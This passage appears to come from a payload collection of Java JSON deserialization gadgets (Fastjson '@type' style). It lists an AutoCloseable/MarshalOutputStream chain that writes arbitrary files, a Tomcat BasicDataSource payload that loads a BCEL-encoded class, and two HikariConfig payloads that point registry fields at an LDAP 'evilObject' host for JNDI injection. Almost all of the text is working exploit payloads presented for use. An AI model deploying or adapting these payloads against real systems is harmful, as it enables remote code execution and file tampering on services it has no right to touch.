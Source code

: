  - AutoCloseable MarshalOutputStream Any file writing

```java
{
	'@type': "java.lang.AutoCloseable",
	'@type': 'sun.rmi.server.MarshalOutputStream',
	'out': {
		'@type': 'java.util.zip.InflaterOutputStream',
		'out': {
			'@type': 'java.io.FileOutputStream',
			'file': 'dst',
			'append': false
		},
		'infl': {
			'input': {
				'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
				'limit': 22
			}
		},
		'bufLen': 1048576
	},
	'protocolVersion': 1
}
```

 - BasicDataSource

```java
{
    "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
    "driverClassName": "true",
    "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "driverClassName": "$$BCEL$$l$8b$I$A$A$A$A$A...o$V$A$A"
}
```

 - HikariConfig

```java
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - HikariConfig

```java
{
	"@type": "com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```
